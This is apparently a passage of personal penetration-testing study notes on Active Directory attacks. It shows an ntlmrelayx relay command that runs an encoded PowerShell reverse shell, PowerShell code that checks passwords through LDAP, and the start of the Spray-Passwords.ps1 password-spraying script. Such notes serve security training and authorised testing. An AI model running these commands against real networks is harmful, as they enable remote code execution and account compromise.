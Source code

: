 `impacket-ntlmrelayx` to relay the incoming connection to another computer


```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc [ENCODED PowerShell reverse shell]"
```








### Using DAP and ADSI
- perform a low and slow password attack against AD users
- make queries in the context of a different user by setting the DirectoryEntry instance
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

If the password for the user account is correct, the object creation will be successful.
If the password is invalid, no object will be created and we will receive an exception.






This password spraying tactic is already implemented in the PowerShell script `Spray-Passwords.ps1`

```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```




#### Spray-Passwords.ps1
- <https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1>


```
<#
  .SYNOPSIS
    PoC PowerShell script to demo how to perform password spraying attacks against 
     user accounts in Active Directory (AD), aka low and slow online brute force method.
    Only use for good and after written approval from AD owner.
    Requires access to a Windows host on the internal network, which may perform
     queries against the Primary Domain Controller (PDC).
    Does not require admin access, neither in AD or on Windows host.
    Remote Server Administration Tools (RSAT) are not required.
    
    Should NOT be considered OPSEC safe since:
    - a lot of traffic is generated between the host and the Domain Controller(s).
    - failed logon events will be massive on Domain Controller(s).
    - badpwdcount will iterate on user account objects in scope.
    
    No accounts should be locked out by this script alone, but there are no guarantees.
    NB! This script does not take Fine-Grained Password Policies (FGPP) into consideration.
  .DESCRIPTION
```